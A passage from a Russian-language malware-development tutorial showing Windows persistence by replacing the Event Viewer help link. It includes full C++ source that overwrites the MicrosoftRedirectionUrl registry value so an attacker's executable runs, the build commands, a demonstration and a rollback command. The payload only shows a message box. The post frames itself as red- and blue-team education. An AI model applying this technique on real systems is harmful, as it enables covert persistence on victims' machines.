 \newpage
\subsection{80. разработка вредоносного ПО: закрепление (persistence) - часть 14. Ссылка на справку в Event Viewer. Простой пример на C++.}

﷽

![pers](./images/74/2022-10-09_05-28.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через замену ссылки на справку в Windows Event Viewer.     

### ссылка на справку в Event Viewer

Event Viewer в Windows существует уже более десяти лет. Он анализирует ограниченное количество журналов, которые Windows ведет на вашем компьютере. Эти журналы представляют собой текстовые файлы в формате `XML`, содержащие обычный текст.     

![pers](./images/74/2022-10-09_05-10.png){width="80%"}    

В качестве части своего интерфейса Event Viewer предоставляет ссылку на *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

При нажатии открывается стандартная справочная ссылка Microsoft, которая определена в реестре Windows по адресу `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](./images/74/2022-10-09_05-13.png){width="80%"}    

Как вы, возможно, догадались, логично предположить, что значение ключа `MicrosoftRedirectionURL` можно изменить в интересах злоумышленника. В этом и заключается трюк.    

### практический пример

Рассмотрим практический пример. Во-первых, как обычно, создадим вредоносное приложение, `meow-meow` "вредоносное ПО" (`hack.cpp`):    

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows через
обновление ссылки на справку в Event Viewer
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR 
lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Затем создаем программу для закрепления (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = 
  "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event 
    // Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d 
    // "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста: просто обновляем значение ключа реестра на `file://Z:\2022-10-09-malware-pers-14\hack.exe`.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем "вредоносное ПО":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_17-31.png){width="80%"}    

Проверяем корректность:    

![pers](./images/74/2022-10-09_05-38_1.png){width="80%"}    

Теперь компилируем скрипт закрепления:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/74/2022-10-09_05-24.png){width="80%"}    

Проверяем стандартные значения ключей реестра на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](./images/74/2022-10-09_05-25.png){width="80%"}    

Затем также запускаем на машине жертвы - `Windows 10 x64`:    

```powershell
.\pers.exe
```    

![pers](./images/74/2022-10-09_05-26.png){width="80%"}    

Наконец, снова пробуем нажать на ссылку *Event Log Online Help*:    

![pers](./images/74/2022-10-09_05-11.png){width="80%"}    

![pers](./images/74/2022-10-09_05-27.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/74/2022-10-09_05-34.png){width="80%"}    

![pers](./images/74/2022-10-09_05-30.png){width="80%"}    

Это означает, что при нажатии на ссылку запускается `mmc.exe`, который, в свою очередь, инициирует вредоносное поведение.    

Для отката, после окончания экспериментов, выполните:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v \
"MicrosoftRedirectionUrl" /t REG_SZ /d \
"http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](./images/74/2022-10-09_05-38.png){width="80%"}    

Или просто восстановите виртуальную машину.     

> Это метод закрепления на уровне администратора, поэтому он работает только при наличии прав администратора.       

Я не знаю, использовалась ли эта тактика каким-либо APT в дикой природе, но надеюсь, что этот пост повысит осведомленность синих команд об этой интересной технике, особенно при создании программного обеспечения, и добавит оружие в арсенал красных команд.

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-09-malware-pers-14)        
